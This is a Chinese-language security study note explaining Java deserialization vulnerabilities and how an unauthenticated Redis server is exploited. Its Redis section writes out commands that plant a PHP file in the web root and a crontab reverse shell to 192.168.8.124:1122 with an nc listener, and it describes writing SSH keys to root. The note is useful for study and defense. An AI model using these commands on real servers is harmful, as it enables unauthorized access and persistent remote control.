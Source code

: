 

### 【JAVA反序列漏洞】

* **序列化与反序列化**
  * 序列化：是指把Java对象转换为字节序列的过程便于保存在内存、文件、数据库中，ObjectOutputStream类的writeObject()方法可以实现序列化。
  * 反序列化：是指把字节序列恢复为Java对象的过程，ObjectInputStream类的readObject()方法用于反序列化

* **漏洞原理**
  * 重写Serializable接口中的readObject（）函数，使得原本执行原有的类的同时，加载了外界其他命令，污染了原本反序列化的流程

* **漏洞挖掘**
  * 从流量中发现序列化的痕迹，关键字：ac ed 00 05，rO0AB
  * Java RMI的传输100%基于反序列化，Java RMI的默认端口是1099端口
  * 从源码入手，可以被序列化的类一定实现了Serializable接口
  * 观察反序列化时的readObject()方法是否重写，重写中是否有设计不合理，可以被利用之处
  * 从可控数据的反序列化或间接的反序列化接口入手，再在此基础上尝试构造序列化的对象。


### 【Redis漏洞】

* **什么是Redis**
  * Redis是一个开源的使用ANSI C语言编写、支持网络、可基于内存亦可持久化的日志型、Key-Value数据库，并提供多种语言的API。

* **漏洞原理**
  * Redis 默认情况下，会绑定在 0.0.0.0:6379，，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。

* **漏洞挖掘**
  * redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源 ip 访问等相关安全策略，直接暴露在公网；
  * 没有设置密码认证（一般为空），可以免密码远程登录redis服务。


* **漏洞危害**
  * （1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
  * （2）攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
  * （3）最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器


* **Redis漏洞利用**
  * 一旦控制 redis 后，优先想到的是写 webshell，容错性是它最大优势。假定目标是 PHP 环境、web 的根目录为/var/www/html，按前面步骤尝试写个普通 PHP 脚本看下是否能成功解析
    ```
    $ redis-cli -p 6379 -h 192.168.230.128
    192.168.230.128:6379> CONFIG SET dbfilename phpinfo.php
    192.168.230.128:6379> CONFIG SET dir "/var/www/html"
    192.168.230.128:6379> CONFIG SET rdbcompression no
    192.168.230.128:6379> SET phpinfo"\n\n <?php phpinfo(); ?> \n\n" NX
    192.168.230.128:6379> save
    ```
    
  * 将反弹shell脚本写入/etc/crontab
    ```
    set 1 "\n\n\n\n* * * * * root bash -i >& /dev/tcp/192.168.8.124/1122 0>&1\n\n\n\n"
    config set dir /etc/
    config set dbfilename crontab
    save
    nc -l -p 1122
    ```
    